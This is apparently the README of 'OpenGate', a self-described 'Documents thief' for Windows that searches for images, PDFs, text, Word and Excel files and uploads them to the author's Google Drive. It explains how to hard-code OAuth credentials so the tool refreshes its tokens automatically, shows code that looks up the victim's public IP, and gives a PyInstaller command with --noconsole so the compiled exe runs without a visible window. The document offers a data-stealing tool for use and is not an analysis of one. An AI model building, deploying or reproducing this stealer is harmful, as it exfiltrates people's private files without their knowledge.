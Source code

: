 # OpenGate
OpenGate "Documents thief" searching for images , pdf .text file , word  and Excel ,  extension and send to Google Drive
* for windows operating system compile to exe 
* user can use pyinstaller or py2exe 'for py2exe uset setup.py file
* have to anable api 'OAuth 2.0 Playground'
* 
### how to enable OAuth 2.0 Playground
* the idea of use oauth 2.0 playground is the file  will be large  file so can not send it by email so-
- the best options to use auth 2.0 playground google api 'Googel Drive' so can create file on the google drive 
- and store it in google drive 

 * [Google Ads API Auth Series - Web Flow with the OAuth Playground](https://www.youtube.com/watch?v=KFICa7Ngzng)
 * [Using OAuth 2.0 to Access Google APIs](https://developers.google.com/identity/protocols/oauth2)
 * gentrate the access Token copy and past it 
 ```python
 Token    = ""#add the access Token hare
 ```
 ### handel with ipa Token Expire 
with use access Token will get expire after 1 hour , the OpenGate will requsts new access Token Automaticly if the access Token expire fot that have to hared code client_id , client_sctrite , refrech Token ,
 
```python 
client_id     = ''#add the client_id  hare
client_secret = ''#add the client_secret hare
refresh_token = ''#add the refresh_token  hare
```
### explain
```python

#!/usr/bin/env python3

import os
import shutil
import base64
import json
import requests
import socket
import urllib.request

Token         = "ya29.a0ARrdaM9XO9KvfMzshrDlxJTO6HMCyy5EIaMNduS2gnPamRk1KgoTAj-KSE1zJ_bW3s0xbbK7vjoWYMy5ZRWbtfZbLF0flz4uX58GXqkbNFC3iBXeJ3meGIoILJwuA2dH-7s7yCpnTuBuBYsZOGbpt0J6USo"# add the Token hare
client_id     = '40656873737638192.apps.googleusercontent.com'#add the client_id  hare
client_secret = 'kPcAZ9ICd4ldKE677fhnrjoe99eijejhrr-kijejjejjejjejjr0'#add the client_secret hare
refresh_token = '//04_5VB6CflruWCgYIARAAGAQSNwF-L9IrkPcAZ9ICd4ldKE677fhnrjoe99eijejhrr-kijejjejjejjejjr00jwjjwjjwjjwjjj' # add refreh Token hare
try:
    public_ip  = urllib.request.urlopen('http://api.ipify.org').read().decode('utf8')
```
## Compile python to exe
* to Compile openGate.py to OpenGate.exe have to use pyinstaller or py2exe
### pyinstaller 
   * have to use this command 
      * pyinstaller --noconsole --onefile  --noupx   .\OpenGate.py
         * Note :
           * user can  Compile OpenGate.py use Pyinstaller in Linux,mac or windows opreting system
           * required requests Library'pip install requests' be from compile it 
### py2exe
  * to cpmpile use py2exe have to run  'pip install py2exe'
    * after use setup.py run this command 'python setup.py py2exe4
      * Note :
        * required requests b Library' pip install equests' be from compile it 
### connet me at :
   * rootx1982@mail.com
 ### thank you 
